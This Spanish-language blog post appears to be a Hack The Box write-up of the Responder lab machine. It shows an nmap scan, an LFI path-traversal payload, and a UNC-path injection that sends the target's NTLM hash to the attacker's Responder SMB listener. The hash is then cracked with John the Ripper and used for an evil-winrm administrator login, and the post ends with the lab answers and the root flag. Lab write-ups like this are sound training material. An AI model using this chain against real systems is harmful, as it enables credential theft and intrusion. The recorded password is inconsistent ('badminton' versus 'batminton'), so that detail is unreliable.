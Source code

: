 ```yaml
---
title: HTB - Responder
date: 2022-06-19 3:30:00
categories: [Hack The Box, Starting Point]
tag: [Web, Responder, LFI]
img_path: /assets/img/htb/responder
image:
   path: preview1.png
   width: 345
   height: 164
   alt: 
---
```


# Responder - Hack The Box

Realizamos un escaneo de `nmap` para identificar los puertos abiertos y servicios.

```console
nmap -v -p- --min-rate 5000 -sV -sC {target ip}
```

Resultado del escaneo:

```console
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-27 15:41 CDT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Nmap scan report for 10.129.39.225
Host is up (0.18s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
5985/tcp open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp open  pando-pub?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

NSE: Script Post-scanning.
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 126.94 seconds
```

Visitamos el servidor web corriendo en el puerto 80 mediante el navegador web.

![](Pasted image 20220427161647.png)
![](Pasted image 20220427161628.png)

Nos redirige a una pagina web llamada `unika.htb`. Debido a que nos encontramos dentro de la misma red que la máquina objetivo y que ese dominio no esta registrado en un servidor DNS, procedemos a agregar la ip y el nombre de dominio al archivo `/etc/hosts` para poder visualizar la pagina web.

![](Pasted image 20220427162215.png)

Ahora ya podemos visualizarla.

![](Pasted image 20220427162345.png)

Navegando por la página nos encontramos con un apartado para cambiar el idioma, si nos fijamos en la url se ve como se incluye un archivo llamado `french.html` mediante otro archvio llamado `index.php`.

![](Pasted image 20220427162745.png)

Vamos a pasarle al parámetro <b style="color: 1F00FF">"page"</b> la siguiente cadena para saber si es vulnerable a **LFI** y como consecuencia a **path traversal**.

```console
../../. ./../../../../../windows/system32/drivers/etc/hosts
```

![](Pasted image 20220427163537.png)

![](Pasted image 20220427163432.png)

Como podemos ver existe una vulnerabilidad en esta web.

Regresando al escaneo, el puerto `5985` se encuentra abierto lo que quiere decir que **WinRM** esta disponible. Podemos aprovecharnos del **LFI** de la página web para capturar el **hash NTLM** de la máquina con ayuda de la herramienta `responder`.

Vamos a ejecutar la herramienta con el siguente comando.

```console
sudo responder -I tun0
```
> `tun0` es la interfaz de red de nuestra máquina
{: .prompt-info }

![](Pasted image 20220427170550.png)

Verificamos que el servidor **SMB** este activado.

![](Pasted image 20220427170523.png)

Mientras `responder` esta esperando una conexion, nos dirigimos a la URL de la página web e ingresamos la siguiente cadena en el parámetro page.

```console
//{our machine ip}/somefile
```
Esto para que la página incluya un "recurso" de nuestro servidor `SMB` y se establezca una conexión.

![](Pasted image 20220427171130.png)

Vemos en la terminal que se ha capturado el **hash NTLM**.

![](Pasted image 20220427171250.png)

Guardamos el hash en un archivo de texto y lo desciframos con ayuda de la herramienta `John The Ripper` .

![](Pasted image 20220427171705.png)

```console
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```

![](Pasted image 20220427172056.png)

A continuación utilizamos la herramienta `evilwinrm` para autenticarnos en el sistema con las credenciales obtenidas.

```console
evil-winrm -i {target ip} -u administrator -p badminton
```

![](Pasted image 20220427172504.png)

Ahora solo queda buscar el archivo `flag.txt`. 
> Este se encuentra en la ruta `C:\Users\mike\Desktop`.
{: .prompt-info }

![](Pasted image 20220427172844.png)

## Preguntas

1. ¿Cuántos puertos TCP están abiertos en la máquina?

   <b style="color:1F00FF">3</b>

2. Al visitar el servicio web utilizando la dirección IP, ¿cuál es el dominio al que se nos redirige?

    <b style="color:1F00FF">unika.htb</b>

3. ¿Qué lenguaje de secuencias de comandos se utiliza en el servidor para generar páginas web?

    <b style="color:1F00FF">php</b>

4. ¿Cuál es el nombre del parámetro de URL que se usa para cargar diferentes versiones de idioma de la página web?

    <b style="color:1F00FF">page</b>

5. ¿Cuál de los siguientes valores para el parámetro `page` sería un ejemplo de explotación de una vulnerabilidad de inclusión de archivo local (LFI): "french.html", "//10.10.14.6/somefile", "../../. ./../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

    <b style="color:1F00FF">../../. ./../../../../../windows/system32/drivers/etc/hosts</b>

6. ¿Qué significa NTLM?

    <b style="color:1F00FF">New Technology LAN Manager</b>

7. ¿Qué indicador usamos en la utilidad Responder para especificar la interfaz de red?

    <b style="color:1F00FF">-I</b>

8. Hay varias herramientas que aceptan un desafío/respuesta de NetNTLMv2 y prueban millones de contraseñas para ver si alguna de ellas genera la misma respuesta. A una de estas herramientas se la suele denominar `john`, pero el nombre completo es ¿cuál?.

    <b style="color:1F00FF">John The Ripper</b>

9. ¿Cuál es la contraseña para el usuario administrador?
 
    <b style="color:1F00FF">batminton</b>

10. Usaremos un servicio de Windows (es decir, que se ejecuta en la caja) para acceder de forma remota a la máquina Responder usando la contraseña que recuperamos. ¿En qué puerto TCP escucha?

     <b style="color:1F00FF">5985</b>

Root Flag: <b style="color:FF8B00">ea81b7afddd03efaa0945333ed147fac</b>

![](Pasted image 20220427134218.png)
